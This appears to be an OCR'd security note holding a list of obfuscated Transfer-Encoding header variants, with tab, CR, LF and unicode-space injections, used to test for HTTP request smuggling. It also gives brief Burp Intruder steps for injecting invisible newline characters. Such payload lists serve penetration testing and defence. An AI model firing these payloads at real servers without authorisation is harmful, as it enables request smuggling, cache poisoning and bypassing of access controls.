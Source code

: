 ```
Transfer-Encoding: chunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked

Transfer-Encoding: chunked

Transfer-Encoding: chunked

Transfer-Encoding: chunked

Transfer-Encoding:chunked

Transfer-Encoding: %09chunked

Transfer-Encoding: chunked%09

Transfer-Encoding: chunked%5Cr

Transfer-Encoding: %5Cx09chunked

Transfer-Encoding: %5Cx20chunked

Transfer-Encoding: %5Cx20chunked

Transfer-Encoding: chunked

Transfer-Encoding: chunked%5Cx20

Transfer-Encoding: %5Cx0Achunked

Transfer-Encoding: chunked%5Cx0A

Transfer-Encoding: chunked%5Cx0D

Transfer-Encoding: %5Cx0Dchunked

Transfer-Encoding: chunked%5Cx0D%5Cx0A

Transfer-Encoding: %5Crchunked

Transfer-Encoding: %5Cr%0achunked

Transfer-Encoding: %0achunked

Transfer-Encoding: chunked%5Cx20

Transfer-Encoding: %5Cu0020chunked

Transfer-Encoding: %5Cu0009chunked

Transfer-Encoding%0a : chunked

X: X%0aTransfer-Encoding: chunked

Transfer-Encoding: chunked

Transfer-Encoding: x
```

There seems to be a bit of a trick to adding invisible characters as in the Payload Processing. Navigate to the Payloads tab within the Intruder tab. You then need to click the "Add" button under the "Payload Processing" heading. Select "Add suffix" and input an encoded value of “\n” (e.g. URL encoded: %0a). Add a second payload processing step to decode that value (e.g. in our case, URL-decode). It should behave as a new line character.

%5Cr%0a
%0a
%5Cr
%09
%0a